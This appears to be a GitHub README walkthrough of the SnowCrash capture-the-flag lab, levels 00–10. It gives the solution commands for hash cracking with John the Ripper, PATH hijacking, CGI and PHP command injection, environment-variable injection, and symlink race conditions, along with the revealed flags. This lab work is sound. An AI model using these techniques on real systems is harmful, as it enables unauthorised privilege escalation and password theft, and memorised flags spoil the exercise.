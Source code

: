 # snow_crash


# Level 00
```sh
level00@SnowCrash:~$ find / -path /proc -prune -o -user flag00 -print 2> /dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```
```sh
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```
[The Cipher Identifier](https://www.dcode.fr/cipher-identifier) => ROT Cipher
Brute Force ROT Cipher => nottoohardhere

<details>
	<summary>Flag:</summary>
	x24ti5gi3x0ol2eh4esiuxias
</details>

# Level 01
```sh
find / -path /dev -prune -o -exec grep -Hn "flag01" {} \; 2>/dev/null
/etc/passwd:41:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
Encoded in SHA512(?)
https://www.openwall.com/john/
```sh
wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz
tar -xJf john-1.9.0-jumbo-1.tar.xz
./configure && make -s clean && make -sj4 
echo 42hDRfypTqqnw > /tmp/pass

./john /tmp/pass
Proceeding with wordlist:./password.lst, rules:Wordlist
abcdefg          (?)

```

<details>
	<summary>Flag:</summary>
	f2av5il02puano7naaf6adaaf
</details>

# Level 02

level02.pcap with Wireshark

Right click => Follow => TCP

Password: ft_wandr...NDRel.L0L   (. = backspace)

Final password: ft_waNDReL0L

<details>
	<summary>Flag:</summary>
	kooda2puivaav1idi4f57q8iq
</details>

# Level 03

exec in https://dogbolt.org

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

/usr/bin/env is absolut

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

<details>
	<summary>Flag:</summary>
	qi0maab88jeaj46qoumi7maus
</details>

# Level 04

level04.pl as CGI

Connect on appach at localhost:4747

```sh
level04@SnowCrash:/etc/apache2/sites-available$ curl "localhost:4747?x=\`getflag\`"
```

<details>
	<summary>Flag:</summary>
	ne2searoevaevoem4ov4ar8ap
</details>

# Level 05

On connection: You have new mail.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

echo "echo test; exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/test.sh
echo /tmp/soluc
```

<details>
	<summary>Flag:</summary>
	viuaaale9huek52boumoomioc
</details>

# Level 06

```sh
$ ls
level06  level06.php

$ echo '[x {${exec(getflag)}}]' > /tmp/test && ./level06 /tmp/test
```

<details>
	<summary>Flag:</summary>
	wiok45aaoguiboiki2tuin6ub
</details>

# Level 07


```c
    asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls

# Level 08

```sh
$ ln -s /home/user/level08/token /tmp/testing
$ ./level08 /tmp/testing
$ su flag08
$	quif5eloekouj29ke0vouxean
```

<details>
	<summary>Flag:</summary>
	25749xKZ8L7DkSCwJkT9dyv6f
</details>

# Level 09

```sh
$ scp -P 4243 level09@localhost:/home/user/level09/token .
# exec script to rotate
$ echo "<res>" > /tmp/res
$ ./level09 /tmp/res
```

<details>
	<summary>Flag:</summary>
	s5cAJpM8ev6XHw998pRWG728z
</details>


# Level 10

```sh
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
```
clef flag10: woupa2yuojeeaaed06riuj63c

<details>
	<summary>Flag:</summary>
	feulo4b72j7edeahuete3no7c
</details>